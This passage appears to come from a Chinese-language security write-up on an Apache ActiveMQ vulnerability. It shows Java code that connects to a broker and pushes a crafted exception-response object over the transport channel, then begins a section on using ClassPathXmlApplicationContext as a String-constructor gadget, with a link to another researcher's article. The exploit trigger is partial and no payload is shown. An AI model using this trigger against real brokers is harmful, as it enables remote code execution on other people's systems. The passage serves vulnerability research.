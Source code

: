 ![image.png](assets/1700814472-a722dfb976de825f98351b515fea4133.png)

//创建连接工厂  
ActiveMQConnectionFactory activeMQConnectionFactory = new ActiveMQConnectionFactory(*ACTIVEMQ\_URL*);  
//创建连接  
Connection connection = activeMQConnectionFactory.createConnection();  
//打开连接  
connection.start();

//获取 oneway 方法

((ActiveMQConnection)connection).getTransportChannel().oneway(exceptionResponse);

# **四、\*\***ClassPathXmlApplicationContext**\*\*类**

问题 2:寻找到一个构造函数为 String 类型的利用链;

这里其他师傅已经找到利用的点了，这里就简单弄一下。

[https://mp.weixin.qq.com/s/4n7vyeXLtim0tXcjnSWDAw](https://mp.weixin.qq.com/s/4n7vyeXLtim0tXcjnSWDAw)

